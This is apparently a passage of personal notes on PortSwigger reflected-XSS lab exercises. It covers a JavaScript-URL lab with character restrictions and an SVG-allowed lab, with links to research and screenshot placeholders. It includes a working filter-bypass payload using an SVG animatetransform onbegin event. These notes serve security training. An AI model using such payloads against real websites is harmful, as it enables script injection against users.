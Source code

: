 ## LAB 11: ****Reflected XSS in a JavaScript URL with some characters blocked****

[http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

[XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)

## LAB 13: Reflected XSS with some SVG markup allowed

![Untitled](Reflected%20XSS%206579ade954e9409aba5dc0b497c2c3a7/Untitled%2023.png)

![Untitled](Reflected%20XSS%206579ade954e9409aba5dc0b497c2c3a7/Untitled%2024.png)

Allowed events & attributes

![Untitled](Reflected%20XSS%206579ade954e9409aba5dc0b497c2c3a7/Untitled%2025.png)

```jsx
<svg><animatetransform onbegin=alert(1)></svg>
```
